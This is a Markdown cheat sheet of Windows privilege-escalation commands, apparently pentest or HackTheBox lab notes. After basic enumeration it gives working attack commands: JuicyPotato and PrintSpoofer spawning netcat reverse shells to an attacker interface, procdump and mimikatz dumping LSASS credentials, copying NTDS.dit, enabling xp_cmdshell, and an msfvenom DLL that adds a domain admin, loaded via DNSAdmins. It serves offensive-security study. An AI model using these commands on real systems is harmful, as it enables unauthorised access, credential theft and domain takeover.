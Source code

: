 ## Windows

### Network
```powershell
ipconfig /all
arp -a
route print
netstat -ano
netstat -anoy
```

### Check users & group
```powershell
query user
echo %USERNAME%
whoami /all
whoami /priv
whoami /groups
net user
net localgroup
net localgroup administrators
net accounts
wmic useraccount where name="netadm" get sid
```

### Defender & AppLocker
```powershell
Get-MpComputerStatus
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone
```

### Process & Installed programs
```powershell
tasklist /svc
wmic product get name
Get-WmiObject -Class Win32_Product |  select Name, Version
```

### Environnement
```powershell
set
systeminfo
wmic qfe
Get-HotFix | ft -AutoSize
pipelist.exe /accepteula
systeminfo
```

### Files and folder & ACLs
```powershell
dir /q C:\backups\wwwroot\web.config
# Change Ownership of file
takeown /f C:\backups\wwwroot\web.config
Get-ChildItem -Path ‘C:\backups\wwwroot\web.config’ | select name,directory, @{Name=“Owner”;Expression={(Ge t-ACL $_.Fullname).Owner}}
icacls "C:\backups\wwwroot\web.config" /grant htb-student:F
# Copy NTDS.dit
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
# Check for security logs event
wevtutil qe Security /rd:true /f:text | Select-String "/user"
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
# Checl powershell log
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

### Named Pipes
```powershell
gci \\.\pipe\
accesschk.exe /accepteula \\.\Pipe\lsass -v
```

### SeImpersonate and SeAssignPrimaryToken
```powershell
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe tun0 8443 -e cmd.exe" -t *
PrintSpoofer.exe -c "c:\tools\nc.exe tun0 8443 -e cmd"
```

### SeDebugPrivilege
```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe log
mimikatz.exe sekurlsa::logonpasswords
mimikatz.exe sekurlsa::minidump lsass.dmp
```

### SeTakeOwnershipPrivilege
```powershell
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1
whoami /priv
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

### MSSQL
```bash
mssqlclient.py sql_dev@10.129.43.30 -windows-auth
enable_xp_cmdshell
xp_cmdshell whoami
```

### RDP
```bash
xfreerdp /d:"$DOMAIN" /u:"$USER" /p:"$PASSWORD" /v:"$TARGET" /cert-ignore /drive:"share,. /dynamic-resolution"
xfreerdp /u:"$USER" /p:"$PASSWORD" /v:"$TARGET" /cert-ignore /drive:"share,. /dynamic-resolution"
```

### Metasploit Framework
```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

### DNS Admin
```powershell
dnscmd.exe /config /serverlevelplugindll adduser.dll
sc.exe sdshow DNS
sc stop dns
sc start dns
sc query dns
```

### Registry key
```powershell
reg query \$TARGET\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\$TARGET\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
```